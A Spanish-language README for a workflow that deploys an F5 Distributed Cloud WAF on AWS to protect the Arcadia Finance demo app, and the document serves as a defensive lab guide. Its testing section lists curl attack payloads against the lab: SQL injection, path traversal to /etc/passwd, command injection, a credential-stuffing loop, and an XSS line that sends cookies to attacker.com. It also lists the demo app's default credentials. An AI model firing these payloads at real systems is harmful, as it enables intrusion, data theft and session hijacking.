

# WAF en RE para VM en AWS - Deploy

Este workflow despliega una solución de **Web Application Firewall (WAF) con F5 Distributed Cloud sobre el Regional Edge (RE)**, protegiendo la aplicación **Arcadia Finance** que corre en una instancia EC2 dentro de un VPC en AWS. El tráfico de internet pasa por el RE global de F5 XC antes de ser reenviado a la aplicación.

---

## Resumen de arquitectura y caso de uso

### ¿Para qué sirve este laboratorio?

| Capacidad                       | Descripción                                                                                            |
| ------------------------------- | ------------------------------------------------------------------------------------------------------ |
| WAF en Regional Edge            | F5 XC inspecciona el tráfico en el RE global, sin necesidad de desplegar un Customer Edge en AWS.      |
| VIP pública en RE               | El HTTP Load Balancer usa `advertise_on_public_default_vip = true` para exponer la app via RE.         |
| Aplicación en EC2               | Arcadia Finance corre en una instancia EC2 Amazon Linux 2 con Docker Compose (vía `userdata.sh`).      |
| Modo blocking configurable      | La WAF policy puede operar en modo bloqueo o detección, controlado por la variable `XC_WAF_BLOCKING`.  |
| Infraestructura efímera         | Todo se provisiona desde cero con Terraform y se destruye con el workflow de destroy.                  |
| Estado remoto compartido        | Los tres workspaces de TFC comparten estado remoto para pasar outputs (IP del EC2, puerto) entre módulos. |

### Arquitectura conceptual

```
Internet
   │
   │  HTTP request
   ▼
┌─────────────────────────────────────────────────────────┐
│          F5 Distributed Cloud — Regional Edge (RE)       │
│                                                          │
│  • WAF inspection (block/detect mode)                   │
│  • HTTP Load Balancer                                   │
│  • advertise_on_public_default_vip = true               │
└─────────────────────────────────────────────────────────┘
                           │
                           │  Forward (origin pool → public IP del EC2)
                           ▼
┌─────────────────────────────────────────────────────────┐
│                      AWS VPC                             │
│                                                          │
│  ┌───────────────────────────────────────────────────┐  │
│  │  EC2 Instance (Amazon Linux 2)                    │  │
│  │                                                    │  │
│  │  Elastic IP (public)                              │  │
│  │      │                                            │  │
│  │      ▼                                            │  │
│  │  Arcadia Finance (Docker Compose — userdata.sh)   │  │
│  └───────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────┘
```

### Casos de Uso para Laboratorio

1. Demostración de WAF en RE sin necesidad de instalar un Customer Edge en la nube del cliente.
2. Laboratorio de protección de aplicaciones en EC2 con F5 XC WAF.
3. Validación de políticas WAF de F5 XC (bloqueo de SQLi, XSS, ataques OWASP Top 10).
4. Entorno de pruebas efímero para workshops y capacitaciones de F5 Distributed Cloud.
5. Comparación de modelos de publicación: RE con IP pública (este caso) vs. RE + CE AppConnect sin IP pública (caso AppConnect).

### Casos de Uso Reales

1. **Protección de aplicaciones web expuestas a internet con IP pública en AWS.** El patrón más simple para añadir WAF a una aplicación en EC2 con Elastic IP: el RE de F5 XC actúa como proxy inverso global, inspecciona el tráfico y reenvía solo peticiones limpias al origen. No requiere cambios en la infraestructura de la aplicación.

2. **Migración de WAF on-prem o WAF de nube a F5 Distributed Cloud.** Organizaciones con aplicaciones en EC2 que usan WAF de AWS (WAF nativo), ModSecurity u otra solución, y quieren centralizar la gestión de políticas WAF en F5 XC sin mover la aplicación ni modificar la red.

3. **WAF en RE como primera línea de defensa antes del ALB o API Gateway.** Empresas que tienen un Application Load Balancer o API Gateway en AWS y quieren añadir una capa WAF global antes del balanceador. El RE de F5 XC absorbe el tráfico malicioso antes de que llegue a la infraestructura de AWS.

4. **Protección de aplicaciones legacy sin soporte para certificados TLS modernos.** Aplicaciones en EC2 que no soportan TLS 1.3 o certificados modernos. El RE de F5 XC termina TLS hacia el cliente y reenvía al origen en HTTP plano o TLS legacy — desacoplando el perfil TLS de la app del perfil expuesto al cliente.

5. **Demo de WAF para clientes y prospects de F5.** Entorno efímero que se despliega en minutos con Terraform, demuestra bloqueo de ataques OWASP Top 10 en tiempo real, y se destruye completamente al finalizar — sin costes residuales ni configuración manual.

### Componentes desplegados

```
aws/waf-re-aws/infra  ──►  VPC + Subnet pública + Internet Gateway + Security Groups
        │
        ▼
aws/waf-re-aws/vm     ──►  EC2 (Arcadia Finance) + Elastic IP + Key Pair SSH
        │
        ▼
aws/waf-re-aws/xc     ──►  XC Namespace + Origin Pool + HTTP LB + WAF Policy (RE)
```

---

## Objetivo del workflow

1. Crear (o verificar) los tres workspaces de Terraform Cloud con modo de ejecución `local` y Remote State Sharing habilitado entre ellos.
2. Aprovisionar la infraestructura de red en AWS: VPC, subred pública, Internet Gateway, Route Table y Security Groups.
3. Desplegar la instancia EC2 con la aplicación **Arcadia Finance** (Docker Compose via `userdata.sh`) y su Elastic IP.
4. Configurar en F5 Distributed Cloud el namespace, la WAF policy, el Origin Pool y el HTTP Load Balancer publicado en el **Regional Edge**.

---

## Triggers

```yaml
on:
  workflow_dispatch:
```

- **`workflow_dispatch`:** ejecución manual desde la pestaña **Actions** de GitHub.

---

## Secretos requeridos

Configurar en **Settings → Secrets and variables → Secrets**:

### Terraform Cloud

| Secreto                 | Descripción                                  |
| ----------------------- | -------------------------------------------- |
| `TF_API_TOKEN`          | Token de API de Terraform Cloud              |
| `TF_CLOUD_ORGANIZATION` | Nombre de la organización en Terraform Cloud |

### AWS

| Secreto            | Descripción                              |
| ------------------ | ---------------------------------------- |
| `AWS_ACCESS_KEY`   | Access Key ID de la cuenta AWS           |
| `AWS_SECRET_KEY`   | Secret Access Key de la cuenta AWS       |

### F5 Distributed Cloud

| Secreto           | Descripción                                                             |
| ----------------- | ----------------------------------------------------------------------- |
| `XC_API_URL`      | URL de la API de F5 XC (`https://<tenant>.console.ves.volterra.io/api`) |
| `XC_P12_PASSWORD` | Contraseña del certificado `.p12` de F5 XC                              |
| `XC_API_P12_FILE` | Certificado API de F5 XC en formato `.p12` codificado en **base64**     |

### SSH

| Secreto           | Descripción                                                                                       |
| ----------------- | ------------------------------------------------------------------------------------------------- |
| `SSH_PRIVATE_KEY` | Llave privada SSH (la pública se deriva en runtime con `ssh-keygen -y`). Usada en el EC2 Key Pair. |

---

## Variables requeridas

Configurar en **Settings → Secrets and variables → Variables**:

### Terraform Cloud — Workspaces

| Variable                        | Ejemplo              | Descripción                                        |
| ------------------------------- | -------------------- | -------------------------------------------------- |
| `TF_CLOUD_WORKSPACE_AWS_INFRA`  | `waf-re-aws-infra`   | Nombre del workspace de TFC para AWS Infra         |
| `TF_CLOUD_WORKSPACE_AWS_VM`     | `waf-re-aws-vm`      | Nombre del workspace de TFC para la VM (EC2)       |
| `TF_CLOUD_WORKSPACE_AWS_XC`     | `waf-re-aws-xc`      | Nombre del workspace de TFC para F5 XC             |

### Infraestructura

| Variable         | Ejemplo      | Descripción                                         |
| ---------------- | ------------ | --------------------------------------------------- |
| `AWS_REGION`     | `us-east-1`  | Región de AWS donde se despliegan los recursos      |
| `PROJECT_PREFIX` | `waf-re-aws` | Prefijo para nombrar todos los recursos creados     |

### Aplicación

| Variable           | Ejemplo                        | Descripción                                          |
| ------------------ | ------------------------------ | ---------------------------------------------------- |
| `XC_NAMESPACE`     | `arcadia-prod`                 | Namespace de F5 XC donde se crea el LB y WAF         |
| `ARCADIA_DOMAIN`   | `arcadia-aws.example.com`      | FQDN de la aplicación en el HTTP LB de F5 XC         |
| `XC_WAF_BLOCKING`  | `true`                         | `true` = modo bloqueo; `false` = modo detección      |

---

## Jobs principales

### `terraform_infra` — AWS Infra

- **Módulo:** `aws/waf-re-aws/infra`
- **Workspace TFC:** `TF_CLOUD_WORKSPACE_AWS_INFRA`
- **Qué crea:**
  - VPC con DNS habilitado (`enable_dns_support`, `enable_dns_hostnames`).
  - Internet Gateway y Route Table pública.
  - Subred pública con `map_public_ip_on_launch = true`.
  - Security Groups con reglas de acceso HTTP, HTTPS y SSH.
- **Outputs:** IDs de VPC, subred y SG (consumidos por el job `terraform_vm` vía estado remoto).

### `terraform_vm` — AWS VM (Arcadia)

- **Módulo:** `aws/waf-re-aws/vm`
- **Workspace TFC:** `TF_CLOUD_WORKSPACE_AWS_VM`
- **Depende de:** `terraform_infra`
- **Qué crea:**
  - Key Pair SSH (public key derivada en runtime desde `SSH_PRIVATE_KEY` con `ssh-keygen -y`).
  - Instancia EC2 Amazon Linux 2 (`t3.micro` o el tipo configurado) con `userdata.sh` para instalar Docker Compose y levantar Arcadia Finance.
  - Elastic IP asignada a la instancia.
  - Volumen root de 20 GB con monitoring habilitado.
- **Nota:** usa estado remoto de `aws/infra` para obtener IDs de subred y SG.
- **Outputs:** IP pública del EC2 y puerto de la app (consumidos por `terraform_xc`).

### `terraform_xc` — F5XC WAF

- **Módulo:** `aws/waf-re-aws/xc`
- **Workspace TFC:** `TF_CLOUD_WORKSPACE_AWS_XC`
- **Depende de:** `terraform_vm`
- **Qué crea / configura:**
  - Namespace de F5 XC.
  - WAF Policy (`volterra_app_firewall`) con modo configurable (blocking/monitoring).
  - Origin Pool apuntando a la IP pública del EC2.
  - HTTP Load Balancer publicado en el Regional Edge (`advertise_on_public_default_vip = true`).
- **Parámetros relevantes:**

  | Variable Terraform              | Origen                             | Propósito                                        |
  | ------------------------------- | ---------------------------------- | ------------------------------------------------ |
  | `TF_VAR_tf_cloud_workspace_infra` | `TF_CLOUD_WORKSPACE_AWS_INFRA`  | Estado remoto de infra (VPC/subnet IDs)          |
  | `TF_VAR_tf_cloud_workspace_vm`  | `TF_CLOUD_WORKSPACE_AWS_VM`        | Estado remoto de VM (IP EC2, puerto app)         |
  | `TF_VAR_xc_waf_blocking`        | `XC_WAF_BLOCKING` (var)            | Modo de WAF: `true` = bloqueo, `false` = detección |

---

## Arquitectura desplegada por el workflow



---

## Troubleshooting rápido

- **Error `exit code 58` o falla al decodificar el P12:**
  Confirmar que `XC_API_P12_FILE` esté codificado en base64 correctamente:

  ```bash
  base64 -i api.p12 | pbcopy   # macOS
  base64 api.p12 | xclip       # Linux
  ```

- **EC2 no responde en el origen pool:**
  La aplicación Arcadia corre vía `userdata.sh` al lanzar la instancia. Puede tardar 2-3 minutos en estar disponible. Verificar el estado del `userdata` con:

  ```bash
  ssh -i <private_key> ec2-user@<EIP> "sudo cat /var/log/cloud-init-output.log"
  ```

- **Workspace TFC no encontrado durante `terraform init`:**
  Verificar que las variables `TF_CLOUD_WORKSPACE_AWS_INFRA`, `TF_CLOUD_WORKSPACE_AWS_VM` y `TF_CLOUD_WORKSPACE_AWS_XC` estén configuradas en el repositorio y que el token `TF_API_TOKEN` tenga permisos sobre la organización correcta.

- **Plan fallido en `terraform_xc` por estado remoto vacío:**
  El job `terraform_xc` depende de los outputs de `terraform_infra` y `terraform_vm`. Si alguno de los dos workspaces previos no tiene estado, `terraform_xc` fallará. Re-ejecutar el workflow completo.

- **Error 409 al crear el namespace en re-ejecuciones:**
  El step _"Create XC Namespace if not exists"_ usa `curl` para pre-crear el namespace antes del `terraform apply`. Si el namespace ya existe, el API responde 409 — este código se acepta como éxito y el workflow continúa sin error. Terraform ya no gestiona el recurso `volterra_namespace`.

- **El step `Remove namespace from TF state` muestra "Invalid target address":**
  En la primera ejecución limpia, `volterra_namespace.this` no existe en el estado de TFC y `terraform state rm` finaliza con código 1. El `|| true` absorbe el error — comportamiento esperado, puede ignorarse.

- **Variable `ARCADIA_DOMAIN` no configurada:**
  Debe existir como variable de repositorio en GitHub → **Settings → Secrets and variables → Variables**. Ejemplo: `arcadia-aws.example.com`. Si no está definida, el step de Terraform fallará con variable vacía.

- **WAF en modo detección (no bloquea ataques):**
  Verificar que `XC_WAF_BLOCKING` esté en `true`. Si está en `false`, la WAF policy registra pero no bloquea.

---

## Ejecución manual

**Archivo de workflow:** `.github/workflows/waf-re-aws-apply.yml`

1. Ir a **Actions** en GitHub.
2. Seleccionar el workflow: **WAF en RE para VM en AWS - Deploy**.
3. Hacer clic en **Run workflow**.
4. Confirmar la ejecución. No hay inputs adicionales.

### Criterios de éxito

- Los tres jobs (`terraform_infra`, `terraform_vm`, `terraform_xc`) terminan en estado `success`.
- El namespace indicado en `XC_NAMESPACE` existe en la consola de F5 XC.
- El HTTP Load Balancer aparece publicado con una VIP pública en el Regional Edge.
- La aplicación Arcadia Finance es accesible desde internet a través del dominio configurado en `ARCADIA_DOMAIN`.

---

## Uso de la aplicación Arcadia Finance

### Acceso inicial

Navegar a `http://<ARCADIA_DOMAIN>/` en el navegador. La aplicación Arcadia Finance estará disponible directamente — no requiere inicialización manual.

### Credenciales por defecto

| Usuario         | Contraseña  |
| --------------- | ----------- |
| `admin`         | `iloveblue` |
| `matt`          | `ilovef5`   |
| `jim`           | `ilovef5`   |
| `anna`          | `ilovef5`   |

### Módulos y endpoints disponibles

Arcadia Finance expone una API REST y una interfaz web con los siguientes endpoints confirmados:

| Endpoint                                      | Método | Descripción                                      |
| --------------------------------------------- | ------ | ------------------------------------------------ |
| `/trading/login.php`                          | GET    | Página principal de login                        |
| `/trading/auth.php`                           | POST   | Autenticación (form-urlencoded), devuelve cookie |
| `/trading/rest/buy_stocks.php`                | POST   | Compra de acciones (requiere sesión)             |
| `/trading/rest/sell_stocks.php`               | POST   | Venta de acciones (requiere sesión)              |
| `/api/rest/execute_money_transfer.php`        | POST   | Transferencia de dinero entre usuarios           |
| `/api/lower_bar.php`                          | GET    | Barra inferior con datos de cuentas              |
| `/api/side_bar.php`                           | GET    | Panel lateral con formulario de transferencia    |
| `/api/side_bar_accounts.php`                  | GET    | Lista de cuentas del usuario                     |

### Pruebas de seguridad con el WAF

Con `XC_WAF_BLOCKING=true`, los ataques son bloqueados antes de llegar a la aplicación. La respuesta de bloqueo incluye `server: volt-adc` y un `support ID` único en el body.

#### 1. SQLi en JSON body — WAF bloquea ✅

```bash
curl -i -X POST "http://<ARCADIA_DOMAIN>/api/rest/execute_money_transfer.php" \
  -H "Content-Type: application/json" \
  -d '{"amount":1000,"to":"anna'\'' OR '\''1'\''='\''1"}'
```

#### 2. SQLi en campo numérico (UNION based)

```bash
curl -i -X POST "http://<ARCADIA_DOMAIN>/api/rest/execute_money_transfer.php" \
  -H "Content-Type: application/json" \
  -d '{"amount":"1 UNION SELECT username,password FROM users--","to":"Bart"}'
```

#### 3. XSS en body JSON

```bash
curl -i -X POST "http://<ARCADIA_DOMAIN>/api/rest/execute_money_transfer.php" \
  -H "Content-Type: application/json" \
  -d '{"amount":100,"to":"<script>document.location='\''http://attacker.com?c='\''+document.cookie</script>"}'
```

#### 4. Path Traversal

```bash
curl -i "http://<ARCADIA_DOMAIN>/../../../../etc/passwd"
curl -i "http://<ARCADIA_DOMAIN>/api/lower_bar.php?file=../../../../etc/passwd"
```

#### 5. Command Injection en parámetro GET

```bash
curl -i "http://<ARCADIA_DOMAIN>/api/lower_bar.php?user=admin;id"
```

#### 6. Autenticación + ataques en endpoints de trading (requieren sesión)

```bash
# 1. Autenticarse y guardar cookie de sesión
curl -c /tmp/arc.txt -X POST "http://<ARCADIA_DOMAIN>/trading/auth.php" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=matt&password=ilovef5" -L

# 2. BOLA — manipular account ID ajeno
curl -i -b /tmp/arc.txt \
  "http://<ARCADIA_DOMAIN>/api/side_bar_accounts.php?account_id=1"

# 3. SQLi en compra de stocks
curl -i -b /tmp/arc.txt -X POST \
  "http://<ARCADIA_DOMAIN>/trading/rest/buy_stocks.php" \
  -H "Content-Type: application/json" \
  -d '{"trans_value":100,"stock_price":"198 OR 1=1--","qty":10,"company":"F5"}'

# 4. Manipulación de lógica de negocio (monto negativo)
curl -i -b /tmp/arc.txt -X POST \
  "http://<ARCADIA_DOMAIN>/trading/rest/buy_stocks.php" \
  -H "Content-Type: application/json" \
  -d '{"trans_value":-99999,"stock_price":198,"qty":1,"company":"F5"}'
```

#### 7. Credential stuffing (simulación de bot)

```bash
for cred in "admin:admin" "admin:password" "matt:12345" "root:root" "guest:guest"; do
  user=$(echo $cred | cut -d: -f1)
  pass=$(echo $cred | cut -d: -f2)
  echo -n "$user:$pass → "
  curl -s -o /dev/null -w "%{http_code}\n" -X POST \
    "http://<ARCADIA_DOMAIN>/trading/auth.php" \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "username=$user&password=$pass" -L
done
```

#### 8. Scanner simulation (User-Agent malicioso)

```bash
curl -i "http://<ARCADIA_DOMAIN>/" \
  -H "User-Agent: sqlmap/1.7.8#stable (https://sqlmap.org)"

curl -i "http://<ARCADIA_DOMAIN>/" \
  -H "User-Agent: Nikto/2.1.6"
```

#### Resultado esperado

| Prueba | Resultado con WAF blocking |
| --- | --- |
| SQLi en JSON body | `Request Rejected` + `server: volt-adc` + Support ID |
| XSS en JSON | `Request Rejected` |
| Path Traversal | `Request Rejected` |
| Command Injection | `Request Rejected` |
| Scanner User-Agent | Bloqueado (requiere Bot Defense habilitado) |
| Credential stuffing | Bloqueado (requiere Bot Defense habilitado) |
| BOLA / lógica de negocio | Pasa — requiere API Security + OpenAPI spec cargada en el LB |

Los eventos de bloqueo quedan registrados en F5 XC → **Security → Security Events** del namespace configurado en `XC_NAMESPACE`.

---

## Destroy del laboratorio

El archivo [`.github/workflows/waf-re-aws-destroy.yml`](../.github/workflows/waf-re-aws-destroy.yml) destruye **todos** los recursos creados por el apply en orden inverso para evitar dependencias huérfanas en F5 XC y AWS.

**Trigger:** `workflow_dispatch` — ejecución manual desde GitHub Actions.

> **Nota:** el namespace de F5 XC (`XC_NAMESPACE`) también es eliminado via `curl DELETE` al finalizar el destroy de `terraform_xc`, antes de proceder con los recursos de AWS.

### Orden de destrucción

```
terraform_xc     (1° — elimina LB, WAF policy, Origin Pool, namespace XC)
      │
      ▼
terraform_vm     (2° — elimina EC2, Elastic IP, Key Pair)
      │
      ▼
terraform_infra  (3° — elimina VPC, subredes, SGs, Internet Gateway)
```
